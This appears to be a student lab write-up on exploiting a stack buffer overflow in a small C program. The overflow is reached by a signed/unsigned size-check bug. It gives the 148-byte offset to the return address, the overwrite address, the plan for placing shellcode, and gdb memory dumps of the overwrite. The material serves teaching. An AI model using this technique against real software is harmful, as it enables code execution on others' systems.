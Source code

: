 # 02-spica-writeup

## Main Idea

The main idea is to use the conversion of unsigned int to int.

At first, the code reads one byte from file and writes it to the signed int size. Then compare the size with 128, if size > 128 then return. They do not concern the number greater than 128, which will be less than 0 in the representation of int8_t.


## Magic Numbers

The address of msg is `0xffffd5d8`, the RIP is `0xffffd66c`, so the location of RIP is 148 bytes away from the start of the buffer (0xffffd66c - 0xffffd5d8).

``` C++
(gdb) x/16x msg
0xffffd5d8:     0x00000000      0x00000000      0x00000000      0x00000000      
0xffffd5e8:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd5f8:     0x00000000      0x00000000      0x00000000      0x00000000      
0xffffd608:     0x00000000      0x00000000      0x00000000      0x00000000 
(gdb) i f
Stack level 0, frame at 0xffffd670:
 eip = 0x804924e in display (telemetry.c:19); saved eip = 0x80492bd
 called by frame at 0xffffd6a0
 source language c.
 Arglist at 0xffffd668, args: path=0xffffd82b "navigation"
 Locals at 0xffffd668, Previous frame's sp is 0xffffd670
 Saved registers:
  ebp at 0xffffd668, eip at 0xffffd66c
```

## Exploit Structure

The exploit has three parts:

1. Write 148 bytes of dummy characters to overwrite `msg`, the compiler padding, and the sfp.
2. Overwrite the rip with the address of the shellcode. Since we are putting shellcode directly after the rip, we overwrite the rip with `0xffffd670` (`0xffffd66c + 4`).
3. Finally, insert the shellcode directly after the rip.

This causes the function to start executing the shellcode at address `0xffffd670` when it returns.

Note that you should print '0xff' in the egg the bypass the limitation of the file size .

## Exploit GDB Output

When we ran GDB after inputting the malicious exploit string, we got the following output:

```C++
(gdb) x/40x msg
0xffffd5d8:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5e8:     0x41414141      0x41414141      0x41414141      0x41414141      
0xffffd5f8:     0x41414141      0x41414141      0x41414141      0x41414141      
0xffffd608:     0x41414141      0x41414141      0x41414141      0x41414141      
0xffffd618:     0x41414141      0x41414141      0x41414141      0x41414141      
0xffffd628:     0x41414141      0x41414141      0x41414141      0x41414141      
0xffffd638:     0x41414141      0x41414141      0x41414141      0x41414141      
0xffffd648:     0x41414141      0x41414141      0x41414141      0x41414141      
0xffffd658:     0x000000d2      0x41414141      0x41414141      0x41414141      
0xffffd668:     0x41414141      0xffffd670      0xcd58326a      0x89c38980   
```

